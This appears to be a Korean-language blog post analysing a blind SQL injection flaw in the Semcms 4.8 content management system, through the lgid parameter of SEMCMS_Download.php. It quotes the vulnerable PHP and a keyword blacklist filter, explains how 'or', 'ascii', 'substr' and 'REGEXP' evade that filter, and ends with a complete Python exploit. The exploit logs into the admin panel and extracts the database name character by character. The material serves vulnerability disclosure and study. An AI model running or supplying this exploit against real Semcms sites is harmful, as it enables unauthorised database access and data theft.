

## URL

[https://github.com/want1997/SEMCMS_VUL/blob/main/Download_sql_vul_2.md](https://github.com/want1997/SEMCMS_VUL/blob/main/Download_sql_vul_2.md)

## Target

- Semcms 4.8

## Explain

중국에서 개발된 콘텐츠 관리 시스템(CMS)인 Semcms는 PHP와 MySQL로 개발되어 중국 내의 중소형 전자상거래 사이트에 주로 사용되고 있습니다.

한때 Apache, PHP, MySQL이 자주 함께 사용되어 APM이라고 불렸던 것처럼 PHP와 MySQL을 연동하여 같이 사용하는 것은 간단하고 널리 사용되곤 합니다.

이번 취약점이 발생한 SEMCMS_Download.php에서도 아래와 같이 `query`를 통해 sql 문을 실행하고 이 과정에서 클라이언트가 `lgid`로 전달한 파라미터를 쿼리 문자열에 사용하고 있습니다.

```php
 $sql=$db_conn->query("select * from sc_download where languageID=".$_GET["lgid"]."");     
 $all_num=mysqli_num_rows($sql);
```

`.` 연산자를 통해 `select * from sc_download where languageID=`과 `$_GET["lgid"]`를 연결하여 쿼리 문자열로 사용하고 이 경우에는 아주 간단히 sql injection이 이루어질 수 있지만 Semcms에서는 아래의 코드로 쿼리 문자열에 사용되는 값을 블랙리스트를 통해 필터링합니다.

```php
function inject_check_sql($sql_str) {

     return preg_match('/select|and|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
} 
function verify_str($str) { 
       if(inject_check_sql($str)) {
           exit('Sorry,You do this is wrong! (.-.)');
        } 
    return $str;
} 
```

`inject_check_sql` 함수에서 정규 표현식을 통해 `select`, `insert` 등의 문자열을 필터링하고 있지만 블랙리스트가 모든 경우를 포함하지 못하기 때문에 `or`이나 `ascii`, `substr` 등 MySQL 내장 함수 등을 실행할 수 있고 이를 통해 blind sql injection을 수행하여 민감한 정보들을 유출하는 것이 가능했습니다.

poc에서는 `or`을 통해 injection된 구문이 참일 경우에만 데이터가 표시된다는 특성을 이용해서 blind sql injection을 수행합니다.



위 경우에 실행되는 쿼리 문자열은 `select * from sc_download where languageID=-1`로 `languageID=-1`이 항상 거짓이 됩니다.

따라서 아래처럼 `-1 or` 뒤에 오는 조건에 따라 데이터의 표시 여부가 결정되기 때문에 이를 통해 blind sql injection이 가능합니다. 


아래의 poc에서는 `get_db_len` 함수에서 `length(database())`와 `REGEXP`를 통해 데이터베이스 이름의 길이를 알아낸 다음 `get_db_name` 함수에서 `ascii`, `substr`과 `REGEXP`를 사용해서 데이터베이스 이름을 한 글자씩 알아냈습니다.

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import requests

session = requests.session()
def login(url, username, password):
    burp0_url = url + "/SEMCMS_Top_include.php?CF=users&Class=login"
    burp0_cookies = {"scusername": "%E6%80%BB%E8%B4%A6%E5%8F%B7", "scuseradmin": "Admin",
                     "scuserpass": "c4ca4238a0b923820dcc509a6f75849b"}
    burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0",
                     "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
                     "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
                     "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded",
                     "Origin": "http://127.0.0.1:8002", "Connection": "close",
                     "Referer": "http://127.0.0.1:8002/e2aLvD_Admin/index.html", "Upgrade-Insecure-Requests": "1",
                     "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin",
                     "Sec-Fetch-User": "?1"}
    burp0_data = {"UserName": username, "UserPass": password, "checkbox": "on", "x": "39", "y": "15"}
    re = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
    if "欢迎使用黑蚂蚁" in re.text:
        print("登录成功")
    else:
        print("登录失败")

def get_db_len(url):
    """
	get database length
	"""
    for i in range(1, 50):
        i = str(i)
        if len(i) == 1:
            payload = "-1 or length(database()) REGEXP char(94,{},36)".format(ord(i))

        else:
            a = i[0]
            b = i[1]
            payload = "-1 or length(database()) REGEXP char(94,{},{},36)".format(ord(a), ord(b))

        url1 = url + payload
        resp = session.get(url1, timeout=3)
        if ".jpg" in resp.text:
            print("存在漏洞:",i)
            print(url1)
            return int(i)

def get_db_name(url):

    db_len = get_db_len(url)
    print("数据库长度:",db_len)

    print("数据库名:")
    for i in range(1, db_len + 1):
        for j in range(32, 127):
            j = str(j)
            a = j[0]
            b = j[1]
            if len(j) == 2:
                payload = "-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},36)".format(i, ord(a),
                                                                                                 ord(b))

                # print("-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},36)".format(i, ord(a), ord(b)))
            else:
                c = j[2]
                payload = "-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},{},36)".format(i, ord(a),
                                                                                                    ord(b),
                                                                                                    ord(c))

                # print("-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},{},36)".format(i, ord(a), ord(b),

            url1 = url + payload
            resp = session.get(url1, timeout=3)

            if ".jpg" in resp.text:
                print(chr(int(j)))
                print(url1)

# url = input("请输入后台url:")
# username = input("请输入用户名:")
# password = input("请输入密码:")
url="http://127.0.0.1:8002/e2aLvD_Admin"
# mode_len = session.get(url_test="", timeout=3)
username="Admin"
password='1'
login(url=url, username=username, password=password)

path2="/SEMCMS_Download.php?type=edit&lgid=1&page=1&ID="
path4="/SEMCMS_Download.php?lgid="
get_db_name(url=url + path4)
```
